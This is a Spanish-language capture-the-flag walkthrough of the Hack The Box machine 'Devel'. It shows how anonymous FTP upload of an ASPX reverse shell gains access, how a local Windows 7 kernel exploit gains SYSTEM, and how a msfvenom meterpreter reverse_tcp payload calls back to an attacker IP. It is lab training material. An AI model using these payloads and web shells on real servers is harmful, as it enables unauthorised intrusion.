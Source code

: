  
tags: ftp,windows, arbitrary file upload

Esta es una maquina de nivel facil segun hack the box, donde por medio de un servicio FTP se logra subir archivos que permiten ganar acceso al sistema.

## Enumeración
vamos a comenzar enumerando el sistema con nmap para descubrir puertos y servicios corriendo en dichos puertos

```
nmap -sC -sV 10.10.10.5
```

el escaneo de nmap nos reporta los puertos 21(ftp) y 80(http) abiertos

```
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap fue capaz de identificar que el puerto 21 permite logearse con el usuario "Anonymous", el cual no se necesita contraseña para ingresar. 

# Acceso y explotación

Nos conectamos al servicio FTP
```
ftp 10.10.10.5
```
y observamos 3 archivos

*********devel1.png*********

Si navegamos por el puerto 80, veremos la imagen clasica del servicio IIS de windows, sin embargo, al entrar al servicio FTP está la misma imagen (welcome.png) que nos muestra mediante el puerto 80. Por lo que una vía pontencial de explotación es intentar subir una reverse shell.

Buscando en internet "aspx reverse shell github" encontramos una que nos sirve
*********devel2.png*********

por lo que la descargamos en nuestra maquina de atacante 
*********devel3.png*********

y cambiamos la IP y puerto local a la que nos queremos conectar.
*********devel6.png*********

ahora, nos conectamos al servicio FTP (FTP IP-VICTIMA) y ejecutamos el siguiente comando para subir nuestra shell que acabamos de descargar
```
put shell.aspx
```

una vez subida, nos tendremos que poner en escucha con netcat
*********devel7.png*********

y ejecutamos el archivo que subimos desde la web
*********devel5.png*********

y ya logramos ganar acceso al sistema
********devel4.png*********


# Escalación de privilegios
Una vez ganado acceso el sistema, podemos ver ante que SO nos estamos enfrentando, con el comando
```
systeminfo
```

Según la información del SO, estamos ante un Windows 7 6.1.7600
********devel8.png*********

buscando en internet un exploit para esta versión, encontramos uno, asi que vamos a probarlo 
********devel9.png*********

Para ejecutar este exploit, primero necesita ser compilado, en caso de que no tengas la utilidad *mingw-w64* (la cual sirve para compilar exploits de windows en linux) puedes instalarla con el siguiente comando
```
sudo apt-get install mingw-w64
```

ahora solo queda subir el exploit mediante FTP y ejecutarlo en la maquina victima. Nota: cuando ingresemos por FTP, debemos ejecutar el comando "binary" dado que se suelen perder datos de archivos al subirlo, con este comando hacemos que se suba intacto.
********devel10.png*********

una vez subido, nos dirigimos a la ruta C:\inetpub\wwwroot y ejecutamos el exploit que acabamos de subir
********devel10.png*********

una vez hecho esto, somos el usuario **nt authority\system**





# Anexos (alternativas para ganar acceso)

##shell con metasploit
creamos el payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.6 lport=4444 -f aspx -o shell.aspx
```

nos ponemos en escucha
1. ```msfconsole```
2. ```use exploit/multi/handler```
3. ```set payload windows/meterpreter/reverse_tcp```
4. ```set lhost 10.10.16.6
5. ```set lport 1234
6. ```run```


# Pseudo consola para ejecución de comandos
Parrot y Kali linux traen una pseudo consola para en lenguaje aspx que nos permite ejecutar comandos, para encontrla podemos escribir el siguiente comando
```
locate cmdasp.aspx
```

este archivo lo subimos mediante FTP y tendremos ejecución de comandos, para luego establecer una reverse shell a nuestro equipo.
